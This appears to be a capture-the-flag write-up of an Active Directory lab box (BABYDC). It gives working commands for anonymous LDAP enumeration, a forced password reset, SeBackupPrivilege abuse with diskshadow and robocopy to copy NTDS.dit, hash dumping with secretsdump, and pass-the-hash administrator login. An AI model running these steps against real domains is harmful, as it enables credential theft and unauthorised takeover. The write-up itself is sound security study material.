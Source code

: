This document provides a step-by-step walkthrough of an Active Directory penetration test on the target machine (BABYDC). The purpose was to enumerate and exploit weaknesses in the environment to gain administrative access.

Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.
    Nmap de la box :

Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:
```
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  
```
![i](Images/20241213024833.png)

4.3 Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

![i](Images/20241213031525.png)
 
The password was reset to Password123 using:
```
smbpasswd -r 10.10.126.10 -U caroline.robinson 
```
Access was verified, and user privileges were checked using Netexec and the whoami /priv command:
```
nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 
```
![i](Images/20241213061303.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

    Create a shadow copy:
raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:

```
download ntds.dit
download system
```

Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:
```
nxc winrm 10.10.126.10 -u administrator -H hash -X "cat C:\Users\Administrator\Desktop\root.txt"
```
![i](Images/20241213062049.png)
